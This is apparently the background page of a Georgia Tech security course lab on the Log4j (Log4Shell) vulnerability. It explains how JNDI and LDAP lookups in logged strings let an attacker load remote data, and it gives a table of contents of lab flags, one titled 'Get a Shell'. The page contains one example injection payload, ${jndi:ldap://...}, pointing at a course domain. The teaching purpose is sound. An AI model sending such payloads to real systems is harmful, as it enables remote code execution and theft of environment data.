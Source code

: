 Background
Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs lookups which allow for string substitution of certain strings. These are in the form of ${prefix:name} i.e. a common one would be ${java:runtime} and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. ${jndi:<lookup>} is a valid lookup expression recognized by the lookup by Log4J.

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be ${jndi:ldap://cs6035.com/exploitfile} which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

alt text

![alt text](image.png)



Table of contents
FAQ
Setup
Intro Flag
Flag 1: Environment Echo
Flag 2: Get a Shell
Flag 3: Config.Properties Surprise
Flag 4: Command and Concat
Flag 5: PubSub Override
Flag 6: Restful
Flag 7: SQL
Submission
Back to top

Disclaimer: You are responsible for the information on this website. The content is subject to change at any time. © 2024 Georgia Institute of Technology. All rights reserved.
